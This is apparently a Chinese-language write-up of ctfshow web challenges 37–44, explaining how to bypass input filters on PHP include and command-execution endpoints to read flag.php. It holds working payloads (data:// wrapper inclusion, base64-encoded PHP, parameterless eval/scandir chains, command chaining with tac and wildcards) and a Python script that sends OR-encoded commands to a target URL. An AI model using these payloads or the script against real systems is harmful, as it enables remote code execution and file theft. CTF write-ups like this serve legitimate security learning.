### web37

开启容器，题目提示

```
命令执行，需要严格的过滤
```



变量 c 直接被包含了

可以用`data://`伪协议
当它与包含函数结合时，用户输入的 data://流会被当作 php 文件执行。
php 配置需要 allow_url_fopen,allow_url_include 均为 on

```
payload1: ?c=data://text/plain,<?php system("cat f*")?> //查看flag.php，右键源码中查找flag
payload2: ?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==
```

payload1


payload2


### web38

开启容器，题目提示

```
命令执行，需要严格的过滤
```



除了 flag、file 也被过滤了

同样 payload

```
payload: ?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==
```



### web39

开启容器，题目提示

```
命令执行，需要严格的过滤
```



`?c=data://text/plain,<?php%20system("cat%20f*")?>`

`data://text/plain`这样就相当于执行了 php 语句，其实本次添加后缀不起作用

> 在 PHP 中，`data://text/plain` 是一种数据 URI 方案，用于将数据嵌入到代码中，而不需要引用外部文件。它允许你直接在代码中定义数据，PHP 可以像处理普通文件一样处理这些数据。
> include （或 require）语句会获取指定文件中存在的所有文本/代码/标记，并复制到使用 include 语句的文件中。  
> 伪协议中的`data://`，可以让用户来控制输入流，当它与包含函数结合时，用户输入的 data://流会被当作 php 文件执行

`$flag="ctfshow{**}";.php`



`$flag="ctfshow{1625ce72-7342-49a3-8e2b-5492981d6e3c}";.php`

### web40

开启容器，题目提示

```
命令执行，需要严格的过滤
```

发现“.”都被被过滤
但是括号很细节，是中文的，所以可以用英文括号
只能利用无参数命令执行

函数：`print_r(scandir('.'))`可以用来查看当前目录所有文件名  
接下来需要将括号中的`.`替代掉



```php
print_r(scandir(current(localeconv())));
print_r(scandir(pos(localeconv())));
print_r(scandir(reset(localeconv())));
//以上函数均可查看当前目录文件

```



找到 flag.php

flag.php 位于数组的第三个值里，也就是倒数第二个，我们可以通过`array_reverse()`函数以相反的元素顺序返回数组，在用`next()`函数读取下一个元素，最后通过`highlight_file()`函数读取到 flag.php

`payload：c=highlight_file(next(array_reverse(scandir(current(localeconv())))));`



同时可以用无参数 RCE

`?c=eval(end(current(get_defined_vars())));&b=system('ls');`





### web41

开启容器，题目提示

```
**过滤不严，命令执行**
```

数字、字母都不能用，可以直接用异脚本构造
其中按位异 | 没有过滤

运用脚本

rce_or

```php
<?php

$myfile = fopen("rce_or.txt", "w");

$contents="";

for ($i=0; $i < 256; $i++) {

    for ($j=0; $j <256 ; $j++) {


        if($i<16){

            $hex_i='0'.dechex($i);

        }

        else{

            $hex_i=dechex($i);

        }

        if($j<16){

            $hex_j='0'.dechex($j);

        }

        else{

            $hex_j=dechex($j);

        }

        $preg = '/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i';

        if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){

                    echo "";

    }

        else{

        $a='%'.$hex_i;

        $b='%'.$hex_j;

        $c=(urldecode($a)|urldecode($b));

        if (ord($c)>=32&ord($c)<=126) {

            $contents=$contents.$c." ".$a." ".$b."\n";

        }

    }


}

}

fwrite($myfile,$contents);

fclose($myfile);
```

```python
# -*- coding: utf-8 -*-

import requests

import urllib

from sys import *

import os

os.system("php rce_or.php")  #没有将php写入环境变量需手动运行

if(len(argv)!=2):

   print("="*50)

   print('USER：python exp.py <url>')

   print("eg：  python exp.py http://ctf.show/")

   print("="*50)

   exit(0)

url=argv[1]

def action(arg):

   s1=""

   s2=""

   for i in arg:

       f=open("rce_or.txt","r")

       while True:

           t=f.readline()

           if t=="":

               break

           if t[0]==i:

               #print(i)

               s1+=t[2:5]

               s2+=t[6:9]

               break

       f.close()

   output="(\""+s1+"\"|\""+s2+"\")"

   return(output)

while True:

   param=action(input("\n[+] your function：") )+action(input("[+] your command："))

   data={

       'c':urllib.parse.unquote(param)

       }

   r=requests.post(url,data=data)

   print("\n[*] result:\n"+r.text)
```


跑脚本只需要 http 即可，防止 ssl 证书导致脚本中断



### web42

开启容器

```
命令执行，需要严格的过滤
```

回显黑洞，直接间隔开命令即可


`/?c=cat%20flag.php;ls`



### web43

开启容器



同样的黑洞，只过滤 cat，可以用 tac
`;`被过滤，`||` `&&`这两个可以进行截断代替，但需要注意的是`&&`需要进行 url 编码，这样才能成功执行：

`/?c=tac%20flag.php||ls`



### web44

开启容器



flag 也被过滤

`/?c=tac%20fla?.php||ls`


